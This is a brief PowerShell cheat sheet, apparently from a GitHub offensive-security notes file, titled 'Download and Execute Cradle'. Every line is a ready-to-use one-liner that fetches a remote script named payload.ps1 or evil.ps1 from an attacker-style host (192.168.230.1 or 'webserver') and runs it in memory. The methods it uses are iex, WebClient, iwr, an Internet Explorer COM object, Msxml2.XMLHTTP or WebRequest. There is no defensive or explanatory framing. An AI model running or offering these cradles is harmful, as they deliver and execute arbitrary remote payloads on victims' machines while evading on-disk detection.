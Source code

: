 # Powershell

*Download and Execute Cradle*

iex (New-Object Net.WebClient).DownloadString('https://webserver/payload.ps1')

$ie=New-Object -ComObject InternetExplorer.Application;$ie.visible=$False;$ie.navigate('http://192.168.230.1/evil.ps1 ');sleep 5;$response=$ie.Document.body.innerHTML;$ie.quit();iex $response

*PSv3 onwards*
iex (iwr 'http://192.168.230.1/evil.ps1')

$h=New-Object -ComObject Msxml2.XMLHTTP;$h.open('GET','http://192.168.230.1/evil.ps1',$false);$h.send();iex $h.responseText

$wr = [System.NET.WebRequest]::Create("http://192.168.230.1/evil.ps1") $r = $wr.GetResponse()
IEX ([System.IO.StreamReader]($r.GetResponseStream())).ReadToEnd()
